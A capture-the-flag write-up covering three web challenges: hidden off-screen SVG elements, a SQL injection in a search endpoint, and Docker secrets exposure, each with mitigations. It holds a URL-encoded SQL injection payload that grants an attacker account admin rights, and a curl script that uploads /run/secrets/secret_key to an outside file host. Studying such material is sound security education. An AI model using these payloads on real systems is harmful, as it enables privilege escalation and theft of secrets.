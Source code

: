 # 🚩 Web Security Challenges Writeup

## Overview

This repository contains writeups for three web security challenges that demonstrate various vulnerabilities and exploration techniques.

## 📌 Challenges

### 1. 9ach9ach Challenge: Hidden SVG Exploration 🕵️

#### Challenge Concept
A challenge designed to sharpen browser developer tool skills by identifying hidden SVG elements strategically positioned outside the visible viewport.

#### 🔍 Technique Demonstrated
```html
<svg style="position:absolute; bottom:-500px;" xmlns="http://www.w3.org/2000/svg">
<svg style="position:absolute; top:-500px;" xmlns="http://www.w3.org/2000/svg">
<svg style="position:absolute; right:-500px;" xmlns="http://www.w3.org/2000/svg">
```

#### 🎯 Learning Objectives
- Master browser developer tools
- Understand CSS positioning techniques
- Recognize hidden page elements

#### 💡 Solution Approach
1. Open browser developer tools (F12 or Right-click > Inspect)
2. Navigate to the Elements tab
3. Search for SVG elements positioned off-screen
4. Examine hidden elements for potential clues

### 2. L3OMDA Challenge: SQL Injection Vulnerability 💉

#### Challenge Concept
Demonstrates a classic SQL injection vulnerability in a user registration and search system, allowing privilege escalation.

#### 🕳️ Vulnerability Details
Exploits a search functionality vulnerable to SQL injection, enabling unauthorized admin access.

#### 💥 Exploitation Payload
```bash
http://localhost:5000/search?q=%25%27%20%3B%20INSERT%20INTO%20roles_users(user_id,role_id)%20VALUES((SELECT%20id%20FROM%20%22user%22%20WHERE%20email%3D%27attacker@example.com%27),(SELECT%20id%20FROM%20role%20WHERE%20name%3D%27admin%27))%20%3B%20--%20
```

#### 🛡️ Mitigation Strategies
- Use parameterized queries
- Implement robust input validation
- Apply least privilege principle
- Utilize prepared statements

### 3. L7ota Challenge: Docker Secrets Exposure 🐳

#### Challenge Concept
Tests understanding of Docker configurations and secret management, focusing on extracting a hidden secret key.

#### 🚀 Exploitation Technique
Locate and exfiltrate a secret key stored in Docker's secrets management system.

#### 📜 Payload Script
```bash
#!/bin/bash
curl -F'file=@/run/secrets/secret_key' https://0x0.st
```

#### 🔒 Security Recommendations
- Implement strict access controls on secret files
- Use environment-specific secret management solutions
- Regularly rotate and audit secrets
- Add multiple layers of access verification

## 🔑 Key Learning Outcomes

- 🕵️ Detect hidden web elements
- 💉 Understand SQL injection techniques
- 🐳 Explore Docker secret management
- 🛡️ Implement secure coding practices

## ⚠️ Disclaimer

> **Warning**: These challenges are for educational purposes only. Always obtain proper authorization before testing security mechanisms.

## 📚 Further Reading
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Docker Secrets Management](https://docs.docker.com/engine/swarm/secrets/)
- [Web Security Best Practices](https://developer.mozilla.org/en-US/docs/Web/Security)

## 🤝 Contributions
Contributions, corrections, and improvements are welcome! Please open an issue or submit a pull request.

---

*Happy Hacking! 🖥️🔐*